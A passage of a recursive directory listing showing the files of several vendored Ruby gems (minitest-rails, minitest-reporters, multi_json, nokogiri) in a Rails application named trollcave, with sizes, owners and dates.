drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  209 Sep 16  2016 integration_spec.rb
-rw-r--r-- 1 rails rails  141 Sep 16  2016 integration_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/job:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  443 Sep 16  2016 job_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/job/templates:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  164 Sep 16  2016 job_spec.rb
-rw-r--r-- 1 rails rails  172 Sep 16  2016 job_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/mailer:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  740 Sep 16  2016 mailer_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/mailer/templates:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  531 Sep 16  2016 mailer_spec.rb
-rw-r--r-- 1 rails rails  528 Sep 16  2016 mailer_test.rb
-rw-r--r-- 1 rails rails  375 Sep 16  2016 preview.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/model:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 model_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/model/templates:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  619 Sep 16  2016 fixtures.yml
-rw-r--r-- 1 rails rails  223 Sep 16  2016 model_spec.rb
-rw-r--r-- 1 rails rails  257 Sep 16  2016 model_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/route:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  697 Sep 16  2016 route_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/route/templates:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  380 Sep 16  2016 route_spec.rb
-rw-r--r-- 1 rails rails  392 Sep 16  2016 route_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/scaffold:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 scaffold_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/scaffold/templates:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 controller_spec.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 controller_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/minitest:
total 20K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 rails
-rw-r--r-- 1 rails rails 4.9K Sep 16  2016 rails.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/minitest/rails:
total 124K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  72K Sep 16  2016 assertions.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 constant_lookup.rb
-rw-r--r-- 1 rails rails  30K Sep 16  2016 expectations.rb
-rw-r--r-- 1 rails rails  600 Sep 16  2016 railtie.rb
-rw-r--r-- 1 rails rails   63 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/tasks:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  505 Sep 16  2016 test.rake

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test:
total 24K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 generators
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 helper.rb
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 rails
-rw-r--r-- 1 rails rails  118 Sep 16  2016 test_sanity.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test/generators:
total 44K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 test_controller_generator.rb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 test_generator_generator.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 test_helper_generator.rb
-rw-r--r-- 1 rails rails  972 Sep 16  2016 test_install_generator.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_job_generator.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 test_mailer_generator.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 test_model_generator.rb
-rw-r--r-- 1 rails rails  761 Sep 16  2016 test_route_generator.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_scaffold_generator.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test/rails:
total 44K
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 action_controller
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 action_dispatch
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 action_mailer
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 action_view
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 active_job
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 active_support
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 generators
-rw-r--r-- 1 rails rails  170 Sep 16  2016 minitest_5_api_test.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_constant_lookup.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test/rails/action_controller:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_assertions.rb
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 test_controllers.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_expectations.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 test_spec_type.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test/rails/action_dispatch:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 test_spec_type.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test/rails/action_mailer:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 test_mailers.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_spec_type.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test/rails/action_view:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 test_helpers.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 test_spec_type.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test/rails/active_job:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_assertions.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 test_expectations.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_spec_type.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test/rails/active_support:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  572 Sep 16  2016 test_assertions.rb
-rw-r--r-- 1 rails rails  445 Sep 16  2016 test_expectations.rb
-rw-r--r-- 1 rails rails  833 Sep 16  2016 test_spec_type.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/test/rails/generators:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_spec_type.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4:
total 60K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 assets
-rw-rw-r--  1 rails rails   38 Sep 16  2016 Gemfile
-rw-rw-r--  1 rails rails  245 Sep 16  2016 .gitignore
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-rw-r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-rw-r--  1 rails rails 1.1K Sep 16  2016 minitest-reporters.gemspec
-rw-rw-r--  1 rails rails 1.6K Sep 16  2016 Rakefile
-rw-rw-r--  1 rails rails 4.4K Sep 16  2016 README.md
-rw-rw-r--  1 rails rails   19 Sep 16  2016 .ruby-gemset
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 test
-rw-rw-r--  1 rails rails   78 Sep 16  2016 .travis.yml
-rw-rw-r--  1 rails rails  172 Sep 16  2016 .yardopts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/assets:
total 200K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  42K Sep 16  2016 default-reporter.png
-rw-rw-r-- 1 rails rails  64K Sep 16  2016 mean_time_reporter.png
-rw-rw-r-- 1 rails rails  43K Sep 16  2016 progress-reporter.png
-rw-rw-r-- 1 rails rails  40K Sep 16  2016 spec-reporter.png

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/lib:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 minitest

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/lib/minitest:
total 36K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 1.9K Sep 16  2016 extensible_backtrace_filter.rb
-rw-rw-r-- 1 rails rails 1.9K Sep 16  2016 minitest_reporter_plugin.rb
-rw-rw-r-- 1 rails rails  449 Sep 16  2016 old_activesupport_fix.rb
-rw-rw-r-- 1 rails rails  436 Sep 16  2016 relative_position.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 reporters
-rw-rw-r-- 1 rails rails 2.5K Sep 16  2016 reporters.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/lib/minitest/reporters:
total 72K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  612 Sep 16  2016 ansi.rb
-rw-rw-r-- 1 rails rails 2.3K Sep 16  2016 base_reporter.rb
-rw-rw-r-- 1 rails rails 5.2K Sep 16  2016 default_reporter.rb
-rw-rw-r-- 1 rails rails 8.0K Sep 16  2016 html_reporter.rb
-rw-rw-r-- 1 rails rails 4.5K Sep 16  2016 junit_reporter.rb
-rw-rw-r-- 1 rails rails 9.3K Sep 16  2016 mean_time_reporter.rb
-rw-rw-r-- 1 rails rails 2.4K Sep 16  2016 progress_reporter.rb
-rw-rw-r-- 1 rails rails 1.2K Sep 16  2016 ruby_mate_reporter.rb
-rw-rw-r-- 1 rails rails 3.8K Sep 16  2016 rubymine_reporter.rb
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 spec_reporter.rb
-rw-rw-r-- 1 rails rails   67 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/lib/minitest/templates:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 4.3K Sep 16  2016 index.html.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/test:
total 28K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 fixtures
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 gallery
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 integration
-rw-rw-r-- 1 rails rails  663 Sep 16  2016 test_helper.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 unit

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/test/fixtures:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  525 Sep 16  2016 junit_filename_bug_example_test.rb
-rw-rw-r-- 1 rails rails  237 Sep 16  2016 mean_time_test.rb
-rw-rw-r-- 1 rails rails  203 Sep 16  2016 progress_detailed_skip_test.rb
-rw-rw-r-- 1 rails rails  181 Sep 16  2016 progress_test.rb
-rw-rw-r-- 1 rails rails  220 Sep 16  2016 sample_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/test/gallery:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  395 Sep 16  2016 bad_test.rb
-rw-rw-r-- 1 rails rails  212 Sep 16  2016 good_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/test/integration:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 reporters

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/test/integration/reporters:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  458 Sep 16  2016 junit_reporter_test.rb
-rw-rw-r-- 1 rails rails  118 Sep 16  2016 mean_time_reporter_test.rb
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 progress_reporter_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/test/unit:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 minitest

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-reporters-1.1.4/test/unit/minitest:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 1.3K Sep 16  2016 extensible_backtrace_filter_test.rb
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 reporters_test.rb
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 spec_reporter_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/multi_json-1.11.2:
total 44K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  12K Sep 16  2016 CHANGELOG.md
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 CONTRIBUTING.md
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE.md
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 multi_json.gemspec
-rw-r--r--  1 rails rails 5.1K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/multi_json-1.11.2/lib:
total 20K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 multi_json
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 multi_json.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/multi_json-1.11.2/lib/multi_json:
total 40K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  417 Sep 16  2016 adapter_error.rb
-rw-r--r-- 1 rails rails  940 Sep 16  2016 adapter.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 adapters
-rw-r--r-- 1 rails rails  994 Sep 16  2016 convertible_hash_keys.rb
-rw-r--r-- 1 rails rails  850 Sep 16  2016 options.rb
-rw-r--r-- 1 rails rails  431 Sep 16  2016 parse_error.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 vendor
-rw-r--r-- 1 rails rails  435 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/multi_json-1.11.2/lib/multi_json/adapters:
total 44K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  421 Sep 16  2016 gson.rb
-rw-r--r-- 1 rails rails  611 Sep 16  2016 jr_jackson.rb
-rw-r--r-- 1 rails rails  639 Sep 16  2016 json_common.rb
-rw-r--r-- 1 rails rails  222 Sep 16  2016 json_gem.rb
-rw-r--r-- 1 rails rails  221 Sep 16  2016 json_pure.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 nsjsonserialization.rb
-rw-r--r-- 1 rails rails  739 Sep 16  2016 oj.rb
-rw-r--r-- 1 rails rails  636 Sep 16  2016 ok_json.rb
-rw-r--r-- 1 rails rails  433 Sep 16  2016 yajl.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/multi_json-1.11.2/lib/multi_json/vendor:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  15K Sep 16  2016 okjson.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2:
total 212K
drwxrwxr-x  8 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  448 Sep 16  2016 .autotest
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rwxr-xr-x  1 rails rails 3.0K Sep 16  2016 build_all
-rw-r--r--  1 rails rails  618 Sep 16  2016 C_CODING_STYLE.rdoc
-rw-r--r--  1 rails rails  47K Sep 16  2016 CHANGELOG.ja.rdoc
-rw-r--r--  1 rails rails  38K Sep 16  2016 CHANGELOG.rdoc
-rw-r--r--  1 rails rails  134 Sep 16  2016 .cross_rubies
-rw-r--r--  1 rails rails   66 Sep 16  2016 dependencies.yml
-rw-r--r--  1 rails rails  205 Sep 16  2016 .editorconfig
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ext
-rw-r--r--  1 rails rails  856 Sep 16  2016 Gemfile
-rw-r--r--  1 rails rails    0 Sep 16  2016 .gemtest
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails  13K Sep 16  2016 Manifest.txt
-rw-r--r--  1 rails rails 9.9K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 3.7K Sep 16  2016 README.ja.rdoc
-rw-r--r--  1 rails rails 5.6K Sep 16  2016 README.rdoc
-rw-r--r--  1 rails rails 3.3K Sep 16  2016 ROADMAP.md
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 STANDARD_RESPONSES.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 suppressions
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 tasks
drwxrwxr-x  9 rails rails 4.0K Sep 16  2016 test
-rwxr-xr-x  1 rails rails 2.2K Sep 16  2016 test_all
-rw-r--r--  1 rails rails  535 Sep 16  2016 .travis.yml
-rw-r--r--  1 rails rails 5.8K Sep 16  2016 Y_U_NO_GEMSPEC.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/bin:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 2.7K Sep 16  2016 nokogiri

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/ext:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 nokogiri

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/ext/nokogiri:
total 4.7M
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  21K Sep 16  2016 depend
-rw-r--r-- 1 rails rails  17K Sep 16  2016 extconf.rb
-rw-r--r-- 1 rails rails 4.4K Sep 16  2016 html_document.c
-rw-r--r-- 1 rails rails  159 Sep 16  2016 html_document.h
-rw-rw-r-- 1 rails rails  37K Sep 16  2016 html_document.o
-rw-r--r-- 1 rails rails 5.8K Sep 16  2016 html_element_description.c
-rw-r--r-- 1 rails rails  202 Sep 16  2016 html_element_description.h
-rw-rw-r-- 1 rails rails  32K Sep 16  2016 html_element_description.o
-rw-r--r-- 1 rails rails  812 Sep 16  2016 html_entity_lookup.c
-rw-r--r-- 1 rails rails  136 Sep 16  2016 html_entity_lookup.h
-rw-rw-r-- 1 rails rails  13K Sep 16  2016 html_entity_lookup.o
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 html_sax_parser_context.c
-rw-r--r-- 1 rails rails  197 Sep 16  2016 html_sax_parser_context.h
-rw-rw-r-- 1 rails rails  90K Sep 16  2016 html_sax_parser_context.o
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 html_sax_push_parser.c
-rw-r--r-- 1 rails rails  184 Sep 16  2016 html_sax_push_parser.h
-rw-rw-r-- 1 rails rails  46K Sep 16  2016 html_sax_push_parser.o
-rw-rw-r-- 1 rails rails  33K Sep 16  2016 Makefile
-rw-r--r-- 1 rails rails 4.4K Sep 16  2016 nokogiri.c
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 nokogiri.h
-rw-rw-r-- 1 rails rails  38K Sep 16  2016 nokogiri.o
-rwxrwxr-x 1 rails rails 2.8M Sep 16  2016 nokogiri.so
-rw-rw-r-- 1 rails rails    0 Sep 16  2016 .RUBYARCHDIR.-.nokogiri.time
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 xml_attr.c
-rw-r--r-- 1 rails rails  137 Sep 16  2016 xml_attr.h
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 xml_attribute_decl.c
-rw-r--r-- 1 rails rails  176 Sep 16  2016 xml_attribute_decl.h
-rw-rw-r-- 1 rails rails  24K Sep 16  2016 xml_attribute_decl.o
-rw-rw-r-- 1 rails rails  25K Sep 16  2016 xml_attr.o
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 xml_cdata.c
-rw-r--r-- 1 rails rails  141 Sep 16  2016 xml_cdata.h
-rw-rw-r-- 1 rails rails  24K Sep 16  2016 xml_cdata.o
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 xml_comment.c
-rw-r--r-- 1 rails rails  149 Sep 16  2016 xml_comment.h
-rw-rw-r-- 1 rails rails  25K Sep 16  2016 xml_comment.o
-rw-r--r-- 1 rails rails  16K Sep 16  2016 xml_document.c
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 xml_document_fragment.c
-rw-r--r-- 1 rails rails  189 Sep 16  2016 xml_document_fragment.h
-rw-rw-r-- 1 rails rails  22K Sep 16  2016 xml_document_fragment.o
-rw-r--r-- 1 rails rails  705 Sep 16  2016 xml_document.h
-rw-rw-r-- 1 rails rails  74K Sep 16  2016 xml_document.o
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 xml_dtd.c
-rw-r--r-- 1 rails rails  134 Sep 16  2016 xml_dtd.h
-rw-rw-r-- 1 rails rails  37K Sep 16  2016 xml_dtd.o
-rw-r--r-- 1 rails rails 2.6K Sep 16  2016 xml_element_content.c
-rw-r--r-- 1 rails rails  218 Sep 16  2016 xml_element_content.h
-rw-rw-r-- 1 rails rails  23K Sep 16  2016 xml_element_content.o
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 xml_element_decl.c
-rw-r--r-- 1 rails rails  168 Sep 16  2016 xml_element_decl.h
-rw-rw-r-- 1 rails rails  27K Sep 16  2016 xml_element_decl.o
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 xml_encoding_handler.c
-rw-r--r-- 1 rails rails  142 Sep 16  2016 xml_encoding_handler.h
-rw-rw-r-- 1 rails rails  17K Sep 16  2016 xml_encoding_handler.o
-rw-r--r-- 1 rails rails 2.6K Sep 16  2016 xml_entity_decl.c
-rw-r--r-- 1 rails rails  165 Sep 16  2016 xml_entity_decl.h
-rw-rw-r-- 1 rails rails  30K Sep 16  2016 xml_entity_decl.o
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 xml_entity_reference.c
-rw-r--r-- 1 rails rails  184 Sep 16  2016 xml_entity_reference.h
-rw-rw-r-- 1 rails rails  22K Sep 16  2016 xml_entity_reference.o
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 xml_io.c
-rw-r--r-- 1 rails rails  257 Sep 16  2016 xml_io.h
-rw-rw-r-- 1 rails rails  19K Sep 16  2016 xml_io.o
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 xml_libxml2_hacks.c
-rw-r--r-- 1 rails rails  258 Sep 16  2016 xml_libxml2_hacks.h
-rw-rw-r-- 1 rails rails 1.4K Sep 16  2016 xml_libxml2_hacks.o
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 xml_namespace.c
-rw-r--r-- 1 rails rails  294 Sep 16  2016 xml_namespace.h
-rw-rw-r-- 1 rails rails  27K Sep 16  2016 xml_namespace.o
-rw-r--r-- 1 rails rails  41K Sep 16  2016 xml_node.c
-rw-r--r-- 1 rails rails  305 Sep 16  2016 xml_node.h
-rw-rw-r-- 1 rails rails 178K Sep 16  2016 xml_node.o
